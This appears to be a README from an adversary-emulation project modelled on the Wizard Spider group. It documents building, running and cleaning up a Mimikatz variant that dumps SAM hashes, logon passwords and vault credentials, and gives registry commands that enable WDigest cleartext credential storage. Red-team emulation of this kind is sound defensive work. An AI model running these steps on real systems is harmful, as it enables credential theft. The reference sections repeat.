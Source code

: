 # Mimikatz

A variant of Mimikatz that executes lsadump::sam, sekurlsa::logonpasswords, and vault::list *without* user interaction.

### Build Instructions

Open the command prompt (cmd.exe), navigate to directory containing the Mimikatz Visual Studio solution file (mimikatz.sln), and run the devenv.exe command:

 cd wizard_spider\Resources\Mimikatz
 "C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\devenv.exe" mimikatz.sln /build Release

The executable will be found in the x64 folder.

### Test Instructions

Open PowerShell

 cd wizard_spider\Resources\Mimikatz\mimikatz
 mimikatz_test.ps1

### Usage Examples

 # execute all (lsadump::sam, sekurlsa::logonpasswords, and vault::list)
 mimikatz.exe

 # execute lsadump::sam
 mimikatz.exe s

 # execute sekurlsa::logonpasswords
 mimikatz.exe l

 # execute vault::list
 mimikatz.exe v

### Cleanup Instructions

Open a command prompt or PowerShell

 del mimikatz.exe

### Misc

To force credentials to be stored in cleartext in memory, Wizard Spider enables WDigest by modifying the registry (must be done as admin):

 reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
 or
 (PowerShell) Set-ItemProperty -Path "HKLM:SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name UseLogonCredential -Value 1

For the changes to take effect, you must log out and log back in or restart the host.

Verify the change with:

 reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
 or
 (PowerShell) Get-ItemProperty -Path "HKLM:SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest"

Challenges:

- Need credentials to log back in, or voice track that the victim logs back in.

### CTI Evidence
<https://attack.mitre.org/groups/G0102/>
<https://www.hhs.gov/sites/default/files/trickbot.pdf>
<https://us-cert.cisa.gov/ncas/alerts/aa20-302a>
<https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html>

### References
<https://github.com/gentilkiwi/mimikatz>
<https://docs.microsoft.com/en-us/visualstudio/ide/reference/build-devenv-exe?view=vs-2019>

### CTI Evidence
<https://attack.mitre.org/groups/G0102/>
<https://www.hhs.gov/sites/default/files/trickbot.pdf>
<https://us-cert.cisa.gov/ncas/alerts/aa20-302a>
<https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html>

### References
<https://github.com/gentilkiwi/mimikatz>
<https://docs.microsoft.com/en-us/visualstudio/ide/reference/build-devenv-exe?view=vs-2019>
